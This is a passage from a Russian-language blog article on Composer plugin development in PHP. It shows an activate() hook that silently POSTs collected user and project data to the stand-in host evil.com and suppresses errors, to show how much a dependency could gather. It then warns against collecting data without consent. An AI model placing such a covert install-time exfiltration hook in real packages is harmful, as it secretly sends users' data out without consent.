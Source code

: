 И наконец, мы можем отправить эти данные куда-нибудь:

```php
public function activate(Composer $composer, IOInterface $io)
{
    // ...get user details

    // ...get project details

    $context = stream_context_create([
        "http" => [
            "method" => "POST",
            "timeout" => 0.5,
            "content" => http_build_query($payload),
        ],
    ]);

    @file_get_contents("https://evil.com", false, $context);
}
```

Мы могли бы использовать [Guzzle](http://docs.guzzlephp.org) для этого, но `file_get_contents` работает также хорошо. По сути, все что нужно сделать - `POST` запрос на `https://evil.com` с сериализированными данными.

## Будь хорошим

Я ни в коем случае не призываю вас собирать в тайне собирать пользовательские данные. Но, возможно, полезно знать, сколько данных может кто-то собрать, с помощью простой зависимость к хорошо продуманному `Composer`-плагину.

Конечно, можно использовать опцию `composer install --no-plugins`, но множество фреймворков и систем управления контентом зависят от плагинов, требующихся для их правильной установки.

Несколько дополнительных предупреждений:

1. Если вы собираетесь использовать `exec`, фильтруйте и проверяйте любые данные, которые не указаны жестко в коде. В противном случае вы создаете вектор атаки на ваш код.
2. Если вы отправляете данные, отправляйте их по HTTPS. Иначе другие люди доберутся до них.
3. Не отслеживайте пользовательские данные без согласия. Задавайте вопрос перед тем, как начать сбор, делайте это каждый раз! Что-то вроде `IOInterface::ask("...")` - как раз то, что вам нужно...

Помогла ли вам эта статья? Возможно, у вас есть идея для плагина; например свой плагин-установщик для библиотек, или плагин, который загружает оффлайн документацию для популярных проектов. Дайте знать в комментариях ниже...


# composer, OOPHP, packagist, PHP, php package, plugin, plugin plugin-development